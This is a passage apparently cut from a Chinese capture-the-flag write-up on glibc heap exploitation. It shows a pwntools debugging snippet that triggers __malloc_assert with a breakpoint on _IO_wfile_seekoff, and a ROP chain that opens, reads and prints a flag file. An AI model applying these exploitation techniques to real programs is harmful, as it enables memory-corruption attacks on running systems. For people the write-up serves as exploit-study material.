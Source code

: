 [![](assets/1699929779-e7c87e55bbd943bd3d60f7e70f898e44.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231110001456-1f8e1aee-7f1b-1.png)

### 四、\_malloc\_assret

```bash
cat(1)
p.sendlineafter(":",str(10))
gdb.attach(p,'b* (_IO_wfile_seekoff)')
p.sendlineafter(":",str(0x450))
```

[![](assets/1699929779-93ffb2b59eada8e9cee481be74b38984.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231110001504-243344fc-7f1b-1.png)

### 五、ROP 链

构造：

```bash
rop = p64(pop_rdi) + p64(0) + p64(close) #close(0)
rop += p64(pop_rdi) + p64(flag_addr) + p64(pop_rax) + p64(2) + p64(syscall_ret) #open(flag)
rop += p64(pop_rdi) + p64(0) + p64(pop_rsi) + p64(flag_addr+0x10) + p64(pop_rdx_r12) + p64(0x100) + p64(0) + p64(read) #read(0,flag_addr+0x10,0x100)
rop += p64(pop_rdi) + p64(flag_addr+0x10) + p64(puts) #puts(flag_addr+0x10)
```
